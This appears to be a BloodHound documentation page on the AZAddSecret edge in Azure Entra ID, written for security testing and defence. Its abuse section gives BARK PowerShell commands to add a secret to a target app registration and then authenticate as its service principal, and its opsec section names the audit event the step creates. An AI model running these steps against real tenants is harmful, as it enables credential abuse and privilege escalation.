 ```yaml
---
title: AZAddSecret
description: Azure provides several systems and mechanisms for granting control of securable objects within Entra ID, including tenant-scoped admin roles, object-scoped admin roles, explicit object ownership, and API permissions.
---
```

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

When a principal has been granted “Cloud App Admin” or “App Admin” against the tenant, that principal gains the ability to add new secrets to all Service Principals and App Registrations. Additionally, a principal that has been granted “Cloud App Admin” or “App Admin” against, or explicit ownership of a Service Principal or App Registration gains the ability to add secrets to that particular object.

## Abuse Info

There are several ways to perform this abuse, depending on what sort of access you have to the credentials of the object that holds this privilege against the target object. If you have an interactive web browser session for the Azure portal, it is as simple as finding the target App in the portal and adding a new secret to the object using the “Certificates & secrets” tab. Service Principals do not have this tab in the Azure portal but you can add secrets to them with the MS Graph API. No matter what kind of control you have, you will be able to perform this abuse by using BARK’s New-AppRegSecret or New-ServicePrincipalSecret functions.

These functions require you to supply an MS Graph-scoped JWT associated with the principal that has the privilege to add a new secret to your target application. There are several ways to acquire a JWT. For example, you may use BARK’s Get-GraphTokenWithRefreshToken to acquire an MS Graph-scoped JWT by supplying a refresh token:

```bash
$MGToken = Get-GraphTokenWithRefreshToken -RefreshToken "0.ARwA6WgJJ9X2qk..." -TenantID "contoso.onmicrosoft.com"
```

Then use BARK’s New-AppRegSecret to add a new secret to the target application:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token
```
The output will contain the plain-text secret you just created for the target app:

```bash
New-AppRegSecret -AppRegObjectID "d878..." -Token $MGToken.access_token

Name              Value
----              -----
AppRegSecretValue odg8Q~...
AppRegAppId       4d31...
AppRegObjectId    d878...
```

With this plain text secret, you can now acquire tokens as the service principal associated with the app. You can easily do this with BARK’s Get-MSGraphToken function:

```bash
PS /Users/andyrobbins> $SPToken = Get-MSGraphToken `
-ClientID "4d31..." `
-ClientSecret "odg8Q~..." `
-TenantName "contoso.onmicrosoft.com"
PS /Users/andyrobbins> $SPToken.access_token
eyJ0eXAiOiJKV1QiLCJub...
```

Now you can use this JWT to perform actions against any other MS Graph endpoint as the service principal, continuing your attack path with the privileges of that service principal.

## Opsec Considerations

When you create a new secret for an App or Service Principal, Azure creates an event called “Update application - Certificates and secrets management”. This event describes who added the secret to which application or service principal.

## References

* [https://attack.mitre.org/techniques/T1098/](https://attack.mitre.org/techniques/T1098/)
* [https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5](https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5)
* [https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes](https://learn.microsoft.com/en-us/entra/identity/role-based-access-control/assign-roles-different-scopes)